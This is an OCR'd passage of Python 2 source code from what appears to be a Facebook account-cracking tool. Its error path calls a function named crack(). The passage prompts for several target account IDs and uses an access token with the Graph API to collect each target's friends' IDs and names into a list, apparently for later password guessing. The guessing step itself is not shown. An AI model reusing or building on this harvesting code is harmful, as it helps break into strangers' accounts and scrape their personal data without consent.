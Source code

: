         r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
        idt = raw_input('[2] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            crack()
 
        r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
        idt = raw_input('[3] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            crack()
 
        r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
        idt = raw_input('[4] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
            os.system('clear')
            print logo
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            crack()
 